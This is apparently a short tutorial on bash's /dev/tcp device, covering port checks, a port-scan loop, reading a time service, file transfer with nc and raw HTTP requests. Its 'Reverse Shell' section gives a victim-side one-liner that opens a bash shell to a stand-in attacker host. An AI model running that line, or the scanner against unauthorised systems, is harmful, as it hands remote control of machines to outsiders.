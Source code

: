 Bash /dev/tcp
=============

**/dev/tcp is a file descriptor of bash shell**  
In bash, */dev/tcp* is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.  

Using */dev/tcp,* you can open a network socket and read from or write to it, similar to how you would read from or write to a file. This feature is primarily available in bash shells on Unix-like systems.  
*/dev/udp* is also valid.

**Port scanning**  
One of the most common uses of it is to check if a port is open in a remote host.

    timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/7777 && echo "open" || echo "closed"

This can be extremely useful in cases where a machine/container doesn’t have nc, curl, wget or any other utility to check for network connection.  

Let’s say we are in a Kubernetes pod that runs on a minimal image having bash. We want to check if it can communicate with a service or if the service is actually listening on a port.

kubectl exec -it svc/random-service -- bash  

    $ echo < /dev/tcp/other-service.namespace.svc.cluster.local/7777 && echo "open" || echo "closed"

You can make a port scanner with it (and it’s pretty fast)

    for port in {1..8888}; do  
          echo -n 2>/dev/null < /dev/tcp/127.0.0.1/$port && echo "$port/tcp open"  
    done

**Read TCP stream**  
Get the time from nist.gov

    cat < /dev/tcp/time.nist.gov/13

**File Transfer**  
Option 1  
Sender

    nc -lvnp 7777 < file.txt

Receiver

    cat < /dev/tcp/sender/7777 > file.txt

Option 2  
Receiver

    nc -lvnp 7777 > file.txt

Sender

    cat file.txt > /dev/tcp/receiver/7777

**Reverse Shell**  
Attacker

    nc -lvnp 7777

Victim

    bash -c 'bash -i >& /dev/tcp/attacker/7777 0>&1'

**HTTP Requests**  
Fetching the [*www.google.com*](http://www.google.com/) page

    exec 5<>/dev/tcp/www.google.com/80  
    echo -e "GET / HTTP/1.1\r\nhost: www.google.com\r\nConnection: close\r\n\r\n" >&5  
    cat <&5

References  
https://tldp.org/LDP/abs/html/devref1.html  
[Exploring /dev/tcp | w0lfram1te](https://w0lfram1te.com/exploring-dev-tcp)

https://medium.com/@stefanos.kalandaridis/bash-ing-your-network-f7069ab7c5f4
